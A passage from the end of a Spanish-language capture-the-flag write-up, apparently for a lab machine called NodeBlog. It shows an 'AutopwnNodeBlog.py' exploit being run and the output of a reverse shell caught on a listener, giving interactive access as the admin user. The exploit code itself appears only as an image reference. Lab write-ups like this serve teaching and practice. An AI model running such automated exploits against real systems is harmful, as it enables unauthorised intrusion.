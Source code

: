 Si lo ejecutamos:
```
python3 AutopwnNodeBlog.py 10.10.14.17
[+] Trying to bind to :: on port 1234: Done
[+] Waiting for connections on :::1234: Got connection from ::ffff:10.10.11.139 on port 59108
[*] Switching to interactive mode
bash: cannot set terminal process group (863): Inappropriate ioctl for device
bash: no job control in this shell
admin@nodeblog:/opt/blog$ $ whoami
whoami
admin 
```
¡Listo! Hemos automatizado la intrusión.

Nos vemos, hasta la próxima.
